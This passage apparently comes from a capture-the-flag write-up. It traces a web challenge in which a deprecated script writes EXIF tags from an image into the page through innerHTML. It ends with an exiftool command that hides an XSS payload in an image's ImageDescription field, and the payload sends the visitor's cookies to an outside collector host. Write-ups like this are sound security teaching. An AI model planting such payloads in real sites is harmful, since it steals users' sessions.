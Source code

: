 But what template should we inject? Let's look again at the heaven server:
```javascript
const TEMPLATE_PIECES = [
  "head_end",
  "csp",
  "upload_form",
  "footer",
  "retrieve",
  "apiparser", /* We've deprecated the mediaparser. apiparser only! */
  "faves",
  "index",
];
```

Using deprecated stuff is always good, let's look at what it does:
```javascript
// template_server/templates.js
  mediaparser :  `
  <script src="https://cdn.jsdelivr.net/npm/exifreader@4.22.1/dist/exif-reader.min.js"></script>
  <script src="../js/mediaparser.js"></script>
  `,
```
```javascript
// heaven_server/public/js/mediaparser.js
addEventListener("load", (event) => {
  params = new URLSearchParams(window.location.search);
  let requester = new Requester(params.get('F1'));
  try {
    let result = requester.makeRequest();
    result.then((resp) => {
        if (resp.headers.get('content-type') == 'image/jpeg') {
          var titleElem = document.getElementById("title-card");
          var dateElem = document.getElementById("date-card");
          var descElem = document.getElementById("desc-card");
          
          resp.arrayBuffer().then((imgBuf) => {
              const tags = ExifReader.load(imgBuf);
              descElem.innerHTML = tags['ImageDescription'].description;
              titleElem.innerHTML = tags['UserComment'].description;
              dateElem.innerHTML = tags['ICC Profile Date'].description;
          })
        }
    })
  } catch (e) {
    console.log("an error occurred with the Requester class.");
  }
});
```
So we have direct html/js injection via exif data. Seems easy enough, just create a new car by using our favorite cat picture. But first we need to prepare our payload:
```
exiftool -ImageDescription='<img src=x onerror=fetch(`//eqadvjoy.requestrepo.com`,{method:`POST`,body:document.cookie}); />' cat.jpeg
```
